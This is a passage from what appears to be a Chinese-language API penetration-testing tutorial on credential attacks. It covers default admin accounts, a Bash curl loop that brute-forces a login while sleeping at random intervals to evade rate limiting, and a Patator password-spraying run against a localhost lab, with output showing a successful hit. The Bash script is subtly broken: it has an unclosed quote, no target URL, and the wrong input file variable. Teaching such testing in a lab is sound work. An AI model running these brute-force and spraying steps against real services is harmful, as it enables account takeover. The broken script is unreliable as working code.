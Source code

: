 ```
```

观察`ID`列中的请求编号。它们并不是按顺序排列的。原因是`Wfuzz`将它们组织在不同的线程中，这样可以一次发送多个请求。我们这次没有找到匹配的结果，但这并不影响工具的有效性。你可以将它与其他词典结合使用。`Wfuzz`非常方便，因为它会尝试多种用户名和密码组合，并显示所有成功的尝试。当然，如果你已经知道用户名或密码之一，这将大大减少程序的工作量。关于链接列表的参考，可以在章节末尾找到。

## 常见凭据和默认账户

你可以利用在上一章中获得的知识，例如 OSINT 技巧和其他枚举方法，来获得一些默认的 API 凭据。API 文档本身是默认凭据的有效来源。在你的渗透测试工作中，你可能会发现一个利用市场 API 提供商后端的网站。一些提供商的产品有默认凭据，包括管理员凭据。因此，借助检查文档或其他主动或被动方法，你可能会发现一对凭据。

使用与前一小节相同的方法，首先在 Google 上搜索*默认密码*或*常见密码*。在本章末尾可以找到 2024 年生成的密码列表。一些系统管理员仍然使用默认的管理员用户名，如`admin`或`administrator`来运行他们的 API 后台。即使是运行流行的`admin`或`administrator`网站，它们也可能是超级用户的用户名。其本地化版本，如`administrador`，也是有效的。

当然，你也可以使用 Hydra、Medusa 或 Burp Suite 的`repeater`或`intruder`功能，甚至通过网页浏览器来做这件事，但你也可以通过编写一个简单的循环脚本来自动化你的工作，比如以下这个：

```
#!/bin/bash
passwords="wordlist.txt"
MAXWAIT=2
while IFS= read -r line
do
  curl -X POST --data "username=admin&password=$line >> output.txt
  sleep $((RANDOM % MAXWAIT))
done < passwords
```

在前面的代码中，`wordlist`文件名被放入`$passwords`变量中。然后，我将`$MAXWAIT`变量设置为`2`。在`while`循环内，我执行了`curl`命令，并将其输出附加到`output.txt`文件中。然后，我让代码休眠一个介于 0 到 2 秒之间的随机数。`$RANDOM`变量是 Bash 内置的，返回一个介于 0 到 32,767 之间的随机整数。该整数然后被`$MAXWAIT`除，余数就是脚本休眠的秒数。这只是为了避免被某些 API 的速率限制控制限制。脚本在`while`循环结束时读取`wordlist.txt`文件并逐行处理。

做相反的操作也是有效的，这是一种叫做**密码喷洒**的技术。它的工作原理是针对多个用户账户测试一个单一密码或一小组密码。它对于那些为所有用户生成相同初始密码并建议用户在第一次登录后更改密码的应用程序非常有用。单纯依赖人类因素并不完全符合安全最佳实践。要进行密码喷洒，可以使用一些工具，如 CrackMapExec、Patator 和 Metasploit（它是一个包含众多插件的工具）。让我们考虑使用 Patator 来完成这个任务。

如果你在安装了本章提到的实验环境后跟随本章，那么在 Ubuntu 上运行 Patator 就像执行`sudo apt-get update`；`sudo apt-get install patator`一样简单。只需注意，这个包有很多依赖项。当我编写本章时，软件及其依赖项大约占用 300MB 的磁盘空间。

在深入挖掘并发现版本 0.9 的 Patator（用于编写本章的版本）似乎无法正确处理 HTTP 请求头后，我最终得到了以下结果：

```
$ patator http_fuzz method=POST resolve=domain:127.0.0.1 url=http://localhost:8888/identity/api/auth/login auto_urlencode=0 body='{"email": "FILE0", "password": "Admin!123"}' 0=./userlist.txt header=@fuzzerheader.txt
patator INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.12 at 2024-02-18 18:40 -03
patator INFO -
patator INFO - code size:clen   time | candidate           |   num | mesg
patator INFO - ----------------------------------------------------------
patator INFO - 500  595:74     0.163 | user@domain.com     |     5 | HTTP/1.1 500
patator INFO - 500  595:74     0.252 | user@example.com    |     6 | HTTP/1.1 500
patator INFO - 500  595:74     0.451 | admin@domain.com    |     1 | HTTP/1.1 500
patator INFO - 200  1031:509   0.442 | admin@example.com   |     2 | HTTP/1.1 200
patator INFO - 500  595:74     0.359 | dummy@domain.com    |     3 | HTTP/1.1 500
patator INFO - 500  595:74     0.366 | dummy@example.com   |     4 | HTTP/1.1 500
patator INFO - Hits/Done/Skip/Fail/Size: 6/6/0/0/6, Avg: 5 r/s, Time: 0h 0m 1s
```
